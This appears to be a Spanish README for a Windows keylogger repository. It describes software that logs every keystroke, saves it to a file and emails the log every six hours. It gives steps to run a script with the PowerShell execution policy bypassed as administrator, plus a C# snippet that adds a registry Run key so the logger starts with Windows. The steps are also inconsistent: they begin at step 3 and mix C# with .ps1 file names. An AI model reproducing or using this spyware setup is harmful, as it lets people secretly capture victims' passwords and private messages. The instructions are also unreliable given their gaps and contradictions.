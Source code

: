 # Keylogger-Windows
Keylogger en C# (registrador de pulsaciones de teclas) que captura las teclas presionadas por el usuario, las guarda en un archivo y las envía por mail.

Ver las instrucciones en mi blog https://ronbhack.com/como-hacer-un-keylogger-en-2024/

Nota: para poder enviar el correo correctamente se debe crear una «contraseña de aplicación» en gmail, esta contraseña tiene 16 digitos


3. Guarda el archivo:

◦ Ve a «Archivo» en la barra de menú del Bloc de notas y selecciona «Guardar como».
◦ Elige una ubicación para guardar tu archivo y asigna el nombre ronblogger con la extensión «.ps1» al final del nombre del archivo. ejemplo, «ronblogger.ps1».

4. Selecciona el tipo de archivo correcto:

◦ En la ventana «Guardar como tipo», selecciona «Todos los archivos (.)» en lugar de «Documentos de texto (*.txt)».

5. Haz clic en «Guardar»:

◦ Haz clic en el botón «Guardar» para guardar tu archivo .ps1.

Ahora has creado un archivo de script PowerShell. Puedes ejecutar este script desde la línea de comandos de PowerShell utilizando el comando .\MiScript.ps1 si estás en el directorio correcto o proporcionando la ruta completa al archivo. Recuerda que es posible que necesites ajustar la política de ejecución de PowerShell si encuentras problemas para ejecutar scripts. Puedes hacerlo ejecutando Set-ExecutionPolicy RemoteSigned en PowerShell con privilegios de administrador.

6. Abrir consola de Powershell
Abre el símbolo del sistema de PowerShell. Puedes buscar «PowerShell» en el menú de inicio o presionar la combinación de teclas Win + X y seleccionar «Windows PowerShell» y ejecutalo como administrador.

7. Comando en Powershell para el keylogger
powershell.exe -ExecutionPolicy Bypass -File «D:\( aquí busca tu ruta donde guardaste el archivo ronblogger.ps1 )\ronblogger.ps1»

Probando el Keylogger
Una vez que hayas realizado estos pasos entonces todo lo que escribas quedara guardado en un block de notas que se guardara en la carpeta Documents en tu Windows.

Además esta la función de enviar todo lo escrito cada 6 horas a tu correo, para hacer esto debes modificar el código, donde dice tu correo y tu contraseña para ser enviado.

Agregando funcionalidades
Si deseas que este programa se inicie cada vez que inicie Windows entonces agrega estas líneas de código al final.

 private static void AddToStartup()
        {
            string executablePath = Process.GetCurrentProcess().MainModule.FileName;
            string runKey = @"HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run";
            Microsoft.Win32.Registry.SetValue(runKey, "ronblogger", executablePath);
        }

Disclaimer
Recuerda que solo debes usar esto con autorización, en casa de que lo uses sin permiso debes tener claro que esto esta penado por ley, No seas un cibercriminal por que eso terminal MAL!.
